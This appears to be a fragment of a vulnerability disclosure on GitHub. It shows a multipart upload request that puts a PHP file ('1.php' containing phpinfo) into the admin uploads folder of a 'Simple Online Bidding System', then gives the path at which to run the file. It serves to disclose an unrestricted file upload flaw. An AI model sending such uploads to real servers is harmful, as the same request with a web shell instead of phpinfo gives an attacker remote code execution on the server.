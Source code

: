 ```
<p style="text-align: center; background: transparent; position: relative;"><span style="color: rgb(0, 0, 0); font-family: &quot;Open Sans&quot;, Arial, sans-serif; font-weight: 400; text-align: justify;">&nbsp;is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry’s standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.</span><br></p><p style="text-align: center; background: transparent; position: relative;"><br></p><p style="text-align: center; background: transparent; position: relative;"><br></p><p></p>
-----------------------------25037955527065652752621416028
Content-Disposition: form-data; name="img"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------25037955527065652752621416028--
```
<img width="1263" alt="image" src="https://github.com/Isfulou/cve/assets/117758486/dc3935b2-8923-4d93-b0bb-6a7ea5518d8f">

Visit the /simple-online-bidding-system/admin/assets/uploads/1719140880_1.php file

<img width="1296" alt="image" src="https://github.com/Isfulou/cve/assets/117758486/6cb03444-38d1-41b8-a333-5f8ee4c910a4">

